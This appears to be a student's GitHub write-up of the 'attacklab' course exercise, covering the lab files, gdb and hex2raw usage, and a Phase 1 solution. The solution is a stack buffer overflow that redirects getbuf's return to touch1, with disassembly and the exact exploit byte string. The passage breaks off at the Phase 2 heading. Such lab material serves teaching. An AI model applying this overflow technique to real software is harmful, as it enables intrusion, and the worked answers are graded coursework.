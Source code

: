 # attacklab

### Table of contents

* [File Introduction](#file)
* [Commands](#commands)
* [Part I: Code Injection Attacks](#part1)
  * [phase 1](#phase1)
  * [phase 2](#phase2)
  * [phase 3](#phase3)

<h2 id = "file">File introduction</h2>

README.txt: A file describing the contents of the directory

ctarget: An executable program vulnerable to code-injection attacks

rtarget: An executable program vulnerable to return-oriented-programming attacks

cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.

farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented
	     programming attacks.

hex2raw: A utility to generate attack strings.

```c
unsigned getbuf(){
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

Functions Gets() and gets() have no way to determine whether their destination buffers are large
enough to store the string they read. They simply copy sequences of bytes, possibly overrunning the bounds of the storage allocated at the destinations.

The exploit string must not contain byte value 0x0a at any intermediate position, since this is the
ASCII code for newline (‘\n’). When Gets encounters this byte, it will assume you intended to
terminate the string.

HEX2RAW expects two-digit hex values separated by one or more white spaces. So if you want to
create a byte with a hex value of 0, you need to write it as 00. To create the word 0xdeadbeef
you should pass “ef be ad de” to HEX2RAW (note the reversal required for little-endian byte
ordering).

<h3 id = "commands">Commands</h3>

#### Using HEX2RAW

```shell
unix> ./hex2raw < exploit.txt > exploit-raw.txt          # store the raw string in a file
```

#### Using GDB

```
unix> gdb ctarget                                        # use gdb to run ctarget
(gdb) run < exploit-raw.txt -q                           # add -q to run locally
(gdb) print <variable>                                   # print the value of the variable
(gdb) break *<addr>                                      # set break point
(gdb) x/<n/f/u> <addr>                                   # print the value stored at the address
```

More usages can be found in [gdb-ref](./gdb-ref.md)

#### Generating byte codes

```shell
unix> gcc -c example.s
unix> objdump -d example.o
```

<h3 id = "part1">Part I: Code Injection Attacks</h3>

>For the first three phases, your exploit strings will attack CTARGET. This program is set up in a way that
>the stack positions will be consistent from one run to the next and so that data on the stack can be treated as executable code. These features make the program vulnerable to attacks where the exploit strings contain the byte encodings of executable code.

<h4 id = "phase1">Phase 1</h4>

Function getbuf is called within CTARGET by a function test having the following C code:

```c
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

When getbuf executes its return statement (line 5 of getbuf), the program ordinarily resumes execution
within function test (at line 5 of this function). We want to change this behavior. Within the file ctarget,
there is code for a function touch1 having the following C representation:

```c
void touch1(){
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

Our task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement, rather than returning to test. We can overflow the stack with the exploit string and change the return address of getbuf function to the address of touch1 function. 

run ctarget executable in gdb and set a breakpoint at getbuf 

```shell
gdb ctarget
(gdb) break getbuf
(gdb) run -q
```

Then disasemble the getbuf function 

```
(gdb) disas
```

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out. 

```
Dump of assembler code for function getbuf:
=> 0x000055555555594f <+0>:	sub    $0x18,%rsp
   0x0000555555555953 <+4>:	mov    %rsp,%rdi
   0x0000555555555956 <+7>:	callq  0x555555555b9f <Gets>
   0x000055555555595b <+12>:	mov    $0x1,%eax
   0x0000555555555960 <+17>:	add    $0x18,%rsp
   0x0000555555555964 <+21>:	retq   
End of assembler dump.
```

` sub $0x18,%rsp`  indicates that 24(0x18) bytes of buffer is allocated for getbuf. So we need to input 24 bytes of padding followed by the return address of the touch1. 

To find the address the touch1, we need to get the disassembled code.

```
(gdb) dissassemble touch1
```

 Then we get codes which looked like

```
Dump of assembler code for function touch1:
   0x0000555555555965 <+0>:	sub    $0x8,%rsp
   0x0000555555555969 <+4>:	movl   $0x1,0x202b69(%rip)        # 0x5555557584dc <vlevel>
   0x0000555555555973 <+14>:	lea    0x178d(%rip),%rdi        # 0x555555557107
   0x000055555555597a <+21>:	callq  0x555555554de0 <puts@plt>
   0x000055555555597f <+26>:	mov    $0x1,%edi
   0x0000555555555984 <+31>:	callq  0x555555555db6 <validate>
   0x0000555555555989 <+36>:	mov    $0x0,%edi
   0x000055555555598e <+41>:	callq  0x555555554f60 <exit@plt>
End of assembler dump.
```

So it's address is at `0x555555555965` 

We can also use `p touch1`  to get its address

```
(gdb) p touch
$1 = {void ()} 0x555555555965 <touch1>
```

Finally create a text file named atk1.txt which will look like below  

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00    /* the first 24 padding bytes */
65 59 55 55 55 55 00 00    /* address of touch1 */
```

When writing the bytes, we need to consider the byte order. My system is a little-endian so the bytes go in reverse order.  

Now run this file through the program hex2raw, which  generates raw exploit strings , and run the raw file

```shell
./hex2raw < atk1.txt > atk1r.txt

./ctarget < atk1r.txt             # use I/O redirection

unix> gdb ctarget                 # within GDB
(gdb) run < atk1r.txt
```

We can get something like below if our solution is right

```shell
Cookie: 0x5f5bd74e                # your cookie will be different
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

<h4 id = "phase2">Phase 2</h4>